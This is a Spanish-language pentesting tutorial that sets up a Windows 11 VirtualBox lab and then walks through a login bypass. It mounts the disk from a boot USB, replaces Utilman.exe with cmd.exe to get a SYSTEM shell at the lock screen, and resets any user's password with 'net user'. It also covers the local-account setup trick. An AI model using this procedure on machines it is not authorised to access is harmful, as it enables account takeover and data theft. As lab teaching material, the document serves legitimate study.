

<!-- Autor: Daniel Benjamin Perez Morales -->
<!-- GitHub: https://github.com/D4nitrix13 -->
<!-- GitLab: https://gitlab.com/D4nitrix13 -->
<!-- Correo electrónico: danielperezdev@proton.me -->

# **Accede a Windows sin Contraseña: Bypass de Login sin Cifrado de Disco**

## **Instalación Manual de Windows en VirtualBox para Entornos de Pentesting**

### **Objetivo**

> [!NOTE]
> *Simular un entorno Windows de forma segura y controlada, sin afectar el sistema anfitrión. Para ello, se usará **VirtualBox** con una configuración **manual**, omitiendo la instalación desatendida que interfiere con el flujo tradicional del instalador (y acceso al `cmd`).*

---

## **Configuración de la Máquina Virtual**

### **1. Crear la Máquina Virtual**

**
**
**
**
**
**
**

* **Nombre:** *`Windows Os`*
* **Tipo:** *Microsoft Windows*
* **Versión:** *Windows 11 (64-bit)*
* **Carpeta:** *`/home/usuario/VirtualBox VMs`*
* **Imagen ISO:** *`/home/usuario/Downloads/Win11_24H2_Spanish_x64.iso`*
* **Omitir instalación desatendida** *(muy importante para evitar que el sistema salte directamente al proceso automatizado sin permitir intervención manual o acceso al símbolo del sistema).*

---

### **2. Disco Duro Virtual**

* **Ubicación:** *`/home/usuario/VirtualBox VMs/Windows Os.vdi`*
* **Tamaño:** *80 GB*
* **Tipo:** *VDI (VirtualBox Disk Image)*
* **Reservar completamente:** *Activado (opcional pero recomendable para rendimiento estable).*

---

### **3. Recursos**

* **Memoria RAM:** *8 GB (8000 MB)*
* **Procesadores:** *6 CPUs*
* **Habilitar EFI** *(para compatibilidad con sistemas modernos como Windows 11)*

---

## **Audio y Red**

* **Audio:** *Activado (controlador Intel HD)*
* **Red:** *NAT con adaptador Intel PRO/1000 MT*

---

## **Almacenamiento**

* **Controlador SATA:**

  * *`Windows Os.vdi` (disco duro)*
  * *`Win11_24H2_Spanish_x64.iso` (como unidad óptica para instalación)*

---

## **Configurar Dispositivo USB Booteable**

### **1. Listar Dispositivos USB**

```bash
lsblk --list-columns
```

```bash
lsblk --list-columns

   ALIGNMENT <integer>       alignment offset
     ID-LINK <string>        the shortest udev /dev/disk/by-id link name
          ID <string>        udev ID (based on ID-LINK)
    DISC-ALN <integer>       discard alignment offset
         DAX <boolean>       dax-capable device
   DISC-GRAN <string|number> discard granularity, use <number> if --bytes is given
    DISK-SEQ <integer>       disk sequence number
    DISC-MAX <string|number> discard max bytes, use <number> if --bytes is given
   DISC-ZERO <boolean>       discard zeroes data
     FSAVAIL <string|number> filesystem size available for unprivileged users, use <number> if --bytes is given
     FSROOTS <string>        mounted filesystem roots
      FSSIZE <string|number> filesystem size, use <number> if --bytes is given
      FSTYPE <string>        filesystem type
      FSUSED <string|number> filesystem size used, use <number> if --bytes is given
      FSUSE% <string>        filesystem use percentage
       FSVER <string>        filesystem version
       GROUP <string>        group name
        HCTL <string>        Host:Channel:Target:Lun for SCSI
     HOTPLUG <boolean>       removable or hotplug device (usb, pcmcia, ...)
       KNAME <string>        internal kernel device name
       LABEL <string>        filesystem LABEL
     LOG-SEC <integer>       logical sector size
     MAJ:MIN <string>        major:minor device number
         MAJ <string>        major device number
         MIN <string>        minor device number
      MIN-IO <integer>       minimum I/O size
        MODE <string>        device node permissions
       MODEL <string>        device identifier
          MQ <string>        device queues
        NAME <string>        device name
      OPT-IO <integer>       optimal I/O size
       OWNER <string>        user name
   PARTFLAGS <string>        partition flags
   PARTLABEL <string>        partition LABEL
       PARTN <integer>       partition number as read from the partition table
    PARTTYPE <string>        partition type code or UUID
PARTTYPENAME <string>        partition type name
    PARTUUID <string>        partition UUID
        PATH <string>        path to the device node
     PHY-SEC <integer>       physical sector size
      PKNAME <string>        internal parent kernel device name
      PTTYPE <string>        partition table type
      PTUUID <string>        partition table identifier (usually UUID)
          RA <integer>       read-ahead of the device
        RAND <boolean>       adds randomness
         REV <string>        device revision
          RM <boolean>       removable device
          RO <boolean>       read-only device
        ROTA <boolean>       rotational device
     RQ-SIZE <integer>       request queue size
       SCHED <string>        I/O scheduler name
      SERIAL <string>        disk serial number
        SIZE <string|number> size of the device, use <number> if --bytes is given
       START <integer>       partition start offset (in 512-byte sectors)
       STATE <string>        state of the device
  SUBSYSTEMS <string>        de-duplicated chain of subsystems
  MOUNTPOINT <string>        where the device is mounted
 MOUNTPOINTS <string>        all locations where device is mounted
        TRAN <string>        device transport type
        TYPE <string>        device type
        UUID <string>        filesystem UUID
      VENDOR <string>        device vendor
       WSAME <string|number> write same max bytes, use <number> if --bytes is given
         WWN <string>        unique storage identifier
       ZONED <string>        zone model
     ZONE-SZ <string|number> zone size, use <number> if --bytes is given
  ZONE-WGRAN <string|number> zone write granularity, use <number> if --bytes is given
    ZONE-APP <string|number> zone append max bytes, use <number> if --bytes is given
     ZONE-NR <integer>       number of zones
   ZONE-OMAX <integer>       maximum number of open zones
   ZONE-AMAX <integer>       maximum number of active zones
```

**Conecta tu USB booteable y ejecuta:**

```bash
lsblk -o NAME,SIZE,LABEL,MOUNTPOINT,VENDOR,MODEL
```

**Ejemplo de salida:**

```bash
NAME          SIZE LABEL   MOUNTPOINT                    VENDOR   MODEL
sda         931.5G                                       ATA      WD Blue SA510 2.5 1TB
├─sda1         16M                                                
└─sda2      931.5G                                                
sdb          14.3G                                       ADATA    USB Flash Drive
└─sdb1       14.3G ESD-USB /run/media/d4nitrix13/ESD-USB          
nvme0n1     465.8G                                                WDC WDS500G2B0C-00PXH0
├─nvme0n1p1    16M                                                
├─nvme0n1p2 465.1G                                                
└─nvme0n1p3   657M                                                
nvme1n1     232.9G                                                HP SSD EX900 250GB
├─nvme1n1p1   512M         /boot                                  
├─nvme1n1p2   100G         /                                      
├─nvme1n1p3   100G         /home                                  
└─nvme1n1p4  32.4G         [SWAP]                                 
```

**Confirmamos que el dispositivo relevante es: `ADATA USB Flash Drive [0100]`**

### **2. Agregar USB en VirtualBox**

**

* *Ve a **Configuración > USB***
* *Haz clic en el icono de USB con signo **“+” verde***
* *Selecciona: `ADATA USB Flash Drive [0100]`*

```bash
Dell Computer Corp. Dell KB216 Wired Keyboard [0110]
TP-Link UB500 Adapter [0200]
ADATA USB Flash Drive [0100]
C-Media INC. USB Sound Device [0010]
EPSON L3110 Series [0100]
ITE Tech. Inc. ITE Device [0001]
Logitech USB Receiver [4401]
Logitech Wireless Gamepad F710 [0305]
```

* **Aplicar cambios**

---

## **Problemas comunes**

### **Error: “La máquina virtual falló al iniciar…”**

**

* *Revisa que la ISO esté correctamente montada.*
* *Asegúrate de que la opción "Omitir instalación desatendida" esté activada.*
* *Verifica el orden de arranque: el disco óptico (ISO) debe estar primero.*
* *Si aparece el mensaje `Press any key to boot from CD or DVD...`, presiona una tecla rápida o perderás el arranque desde la ISO.*

---

## **Bypass del Inicio de Sesión de Cuenta Microsoft en Windows 11**

*Durante la instalación de Windows 11, se intenta forzar al usuario a iniciar sesión con una **cuenta Microsoft**. Esto es problemático en entornos de laboratorio o pruebas, especialmente si no se tiene conectividad a Internet o se desea crear una cuenta local. A continuación, explicamos cómo **omitir este paso de forma manual**.*

---

### **Paso 1: Interrumpir la instalación automática**

**Cuando se muestre la pantalla de selección regional o de conexión a Internet:**

1. **Presiona `Shift` + `F10`** *para abrir la consola `cmd` con privilegios de administrador.*

   **

2. **Escribe el siguiente comando:**

   ```cmd
   start ms-cxh://localonly
   ```

   *Este comando fuerza al sistema a **crear una cuenta local** en lugar de una cuenta Microsoft. Es una vulnerabilidad conocida que ha sido documentada [aquí](https://www.bleepingcomputer.com/news/microsoft/new-windows-11-trick-lets-you-bypass-microsoft-account-requirement/ "https://www.bleepingcomputer.com/news/microsoft/new-windows-11-trick-lets-you-bypass-microsoft-account-requirement/").*

---

### **Paso 2: Crear la Cuenta Local**

*Luego de ejecutar el comando anterior, aparecerá el asistente clásico para cuenta local:*

1. *Introduce el **nombre de usuario** y la **contraseña** deseada.*

   **

2. *Configura las **preguntas de seguridad**. Es importante recordar las respuestas para restaurar acceso en futuras pruebas.*

   **

* **Resultado**

* *Ya no es necesario conectar el sistema a Internet.*
* *No se necesita una cuenta Microsoft.*
* *Se conserva acceso completo y sin restricciones a la terminal (`cmd`), ideal para pruebas de evasión, creación de usuarios, y otros análisis en fase de post-explotación.*

---

## **Acceso Manual a la BIOS/UEFI y Boot desde USB en VirtualBox**

*En ciertas situaciones, especialmente cuando se desea ejecutar un sistema desde una unidad USB booteable (como una imagen personalizada o herramienta de recuperación), es necesario acceder manualmente al menú de arranque de la BIOS/UEFI en VirtualBox.*

---

### **Reinicio y Acceso a BIOS**

#### **Método 1: Durante el arranque (tecla asignada por VirtualBox)**

1. **Apaga la máquina virtual.**
2. *Inicia de nuevo y **mantén presionada la tecla `Esc`** inmediatamente después de iniciar.*
3. *Aparecerá el **menú UEFI de VirtualBox**.*

   **

---

### **Alternativa: Desde el Entorno de Recuperación de Windows (Windows RE)**

*Si ya estás dentro de Windows y necesitas reiniciar para acceder al entorno de recuperación:*

1. *En el menú de usuario, selecciona **Bloquear o Reiniciar**.*

2. *Mantén presionada la tecla `Shift` mientras haces clic en **Reiniciar**.*

3. *Entrarás a Windows RE (Recovery Environment).*

   **

4. **Elige:**
   * *"Solucionar problemas"*
   * *"Opciones avanzadas"*
   * *"Configuración de firmware UEFI"*

*Esto reiniciará la máquina directamente en la BIOS de VirtualBox.*

---

### **Navegación en el Menú UEFI**

**Una vez dentro del menú UEFI:**

1. *Usa las **flechas del teclado** para moverte.*

2. *Selecciona `Boot Manager` y presiona `Enter`.*

   **

3. *Elige la unidad USB correspondiente. En este caso:*

   **

   ```bash
   ADATA USB Flash Drive
   ```

---

## **Pasos Adicionales**

**
**
**

### **Nota sobre la Clave de Producto**

*Si durante el arranque te solicita una **clave de producto**, puedes omitirla haciendo clic en **“No tengo clave de producto”**. Esto no afecta el funcionamiento de prueba o la instalación en entornos de laboratorio.*

**

---

## **Resultado Esperado**

*Después de este procedimiento, el sistema debería iniciar desde tu USB booteable, permitiéndote usar herramientas forenses, entornos alternativos, u otras distribuciones de prueba de forma controlada.*

---

## **Acceso a Archivos del Sistema desde USB Booteable con CMD y Diskpart**

*Tras arrancar desde la USB booteable con Windows, puedes utilizar la terminal (`cmd`) del entorno de recuperación para montar particiones del disco y navegar por el sistema. Este proceso es crucial en escenarios de análisis forense o pruebas de evasión.*

---

### **Paso 1: Iniciar desde la USB Booteable**

**Al arrancar desde la USB booteable, verás primero la interfaz de idioma y distribución del teclado:**

**

*Selecciona el idioma (`Español` en este caso) y continúa.*

---

### **Paso 2: Acceder a la Terminal desde Opciones Avanzadas**

1. *Elige **Solucionar problemas** > **Opciones avanzadas***
2. *Selecciona **Símbolo del sistema** (cmd)*

**

---

### **Paso 3: Usar `diskpart` para listar y montar particiones**

1. **Una vez dentro del cmd:**

   ```cmd
   diskpart
   ```

   **

2. *Lista los volúmenes disponibles:*

   ```cmd
   list volume
   ```

   **

   *Aquí puedes identificar la partición que deseas montar. En este caso, el volumen 1 (79 GB) es la instalación principal de Windows.*

3. **Selecciona el volumen:**

   ```cmd
   select volume 1
   ```

   **

4. *Asigna una letra de unidad (por ejemplo, `E`):*

   ```cmd
   assign letter=e
   ```

   **

5. *Verifica que se haya asignado correctamente:*

   ```cmd
   list volume
   ```

   **

6. *Sal de `diskpart`:*

   ```cmd
   exit
   ```

   **

---

### **Paso 4: Navegar por el Sistema**

*Con la partición ya montada, puedes usar `cd` para navegar y examinar carpetas como `Windows\System32`, por ejemplo:*

```cmd
e:
cd Windows
cd System32
```

**

---

## **Bypass de Inicio de Sesión en Windows con `Utilman.exe` (Acceso a SYSTEM sin contraseña)**

*Este método permite acceder a la consola de comandos con privilegios `SYSTEM` en un sistema Windows, usando un USB booteable y reemplazando el ejecutable de Utilman por `cmd.exe`.*

---

### **Requisitos**

* *USB booteable con Windows.*
* *Acceso físico al sistema.*
* *Sistema de archivos accesible (normalmente `C:\Windows`).*

---

### **Pasos detallados con comandos e imágenes**

#### **1. Entrar al símbolo del sistema desde el entorno de recuperación**

**Cuando inicie el USB de Windows:**

* *En la pantalla de instalación, presiona `Shift + F10` para abrir una consola como `Administrador` en `X:\Windows\System32`.*

---

#### **2. Hacer backup de `Utilman.exe`**

```cmd
move Utilman.exe Utilman.bak
```

* *Salida esperada:*

```bash
Se han movido 1 archivos.
```

**

---

#### **3. Reemplazar `Utilman.exe` por `cmd.exe`**

```cmd
copy cmd.exe Utilman.exe
```

* *Salida:*

```bash
1 archivo(s) copiado(s).
```

**

---

#### **4. Salir del entorno de recuperación**

```cmd
exit
```

**

*Selecciona la opción: `Continuar - Salir y continuar con Windows`*

**

---

#### **5. Usar el botón de accesibilidad para ejecutar `cmd`**

**Haz clic en el ícono de accesibilidad en la esquina inferior derecha.**

**
**

*Esto abrirá `cmd.exe` con permisos de SYSTEM:*

**

---

#### **6. Confirmar el acceso con `whoami`**

```cmd
whoami
```

* *Resultado:*

```bash
nt authority\system
```

**

---

#### **7. Listar usuarios del sistema**

```cmd
net user
```

*Verás la lista de cuentas, incluso si el usuario no ha iniciado sesión todavía:*

**

---

#### **8. Cambiar la contraseña de cualquier usuario**

```cmd
net user Daniel *
```

* *Te pedirá una nueva contraseña y su confirmación (sin mostrar caracteres). Ejemplo De Contraseña 123*

* *Resultado esperado:*

```bash
Se ha completado el comando correctamente.
```

**

---

#### **10. Salir del entorno**

```cmd
exit
```

---

### **Restaurar el sistema**

**Una vez terminado el acceso:**

```cmd
move Utilman.bak Utilman.exe
```

---

### **¿Por qué asignar una letra a un volumen?**

*En el entorno de recuperación de Windows (`cmd` desde el USB), **los volúmenes no siempre tienen una letra asignada**, por lo que:*

* *Para poder acceder a su contenido (`cd`, `dir`, etc.), necesitas **asignarle una letra con `diskpart`**.*
* *Esto lo haces con el comando:*

  ```cmd
  assign letter=E
  ```

  *para que ese volumen se pueda explorar como `E:\`.*

---

### **¿Cómo saber cuál volumen tiene el sistema operativo?**

1. **Generalmente,** *el volumen con mayor tamaño (decenas o cientos de GB) suele contener el sistema operativo.*

2. **Para confirmarlo, busca en ese volumen si existe la ruta:**

   ```bash
   Windows\System32
   ```

   **por ejemplo:**

   ```cmd
   dir E:\Windows\System32
   ```

3. *Si ves muchos archivos `.dll`, `.exe` y carpetas del sistema, **ese es el volumen del sistema operativo**.*

---

### **¿Qué es `NT AUTHORITY\SYSTEM`?**

*Es Equivalente al **usuario root de Linux**.*

* *Es la **cuenta de más alto privilegio en Windows**, incluso por encima del Administrador.*
* *Ejecutar comandos como `NT AUTHORITY\SYSTEM` te da control total del sistema.*
* *Por eso puedes ejecutar:*

  ```cmd
  net user <usuario> *
  ```

  **sin necesidad de conocer la contraseña anterior.**

---

### **¿Cómo identificar rápidamente el volumen con `System32` entre varios discos grandes?**

Hay varios enfoques, te doy el más práctico **desde `cmd`**:

```cmd
for %i in (C D E F G H I J K) do @if exist %i:\Windows\System32 echo Sistema encontrado en %i:
```

* **¿Qué hace esto?**

* *Prueba automáticamente letras comunes.*
* *Si la carpeta `Windows\System32` existe, te lo muestra.*

 **Resultado esperado:**

```bash
Sistema encontrado en E:
```

**Esto te evita ir manualmente letra por letra.**

---

### **BONUS: Cómo escribir el carácter `\` en el entorno `cmd` cuando el teclado está mal mapeado**

* **Si el teclado no responde bien (ej. layout en inglés), puedes usar:**

```bash
ALT + 92
```

* **Importante:**

* *Usa **el teclado numérico**, no los números superiores.*
* *Si estás en una laptop sin teclado numérico, deberías usar `Fn + NumLock` y luego las teclas con función numérica.*

---

#### **1. El comando `for` en CMD te ayudó a identificar la partición con Windows**

**

* **Ejecutamos**

```cmd
for %i in (C D E F) do @if exist %i:\Windows\System32 echo System found letter %i:
```

*Y correctamente identificó que la partición con la carpeta `Windows\System32` está en la unidad `E:`.*

---

#### **2. Windows es *case-insensitive***

*CMD de Windows **no importa si escribes comandos o rutas en mayúsculas, minúsculas o mezcladas**, todo funciona igual:*

```cmd
dir
DIR
DiR
```

**Todos producen el mismo resultado.**

---

#### **Las letras de unidad asignadas desde el entorno de instalación (como `X:\sources`) no son persistentes**

*Cuando trabajas desde un entorno como:*

* *USB booteable de instalación de Windows*
* *Entorno de recuperación*
* *WinPE (`X:\sources`)*

*Las letras asignadas por el sistema (como `E:` a tu partición con Windows) **son temporales** y se generan automáticamente en ese contexto.*

*Una vez que salgas y arranques el sistema instalado, **pueden cambiar** (ejemplo: lo que era `E:` podría ser `C:` después de iniciar normalmente Windows).*

## **En teclado numérico (con Alt):**

* *Mantén presionada la tecla Alt y escribe:*
* *`Alt` + `6` + `4`*
* **(Usa solo el teclado numérico, no los números de la fila superior).**
* **Esto escribe: `@`**
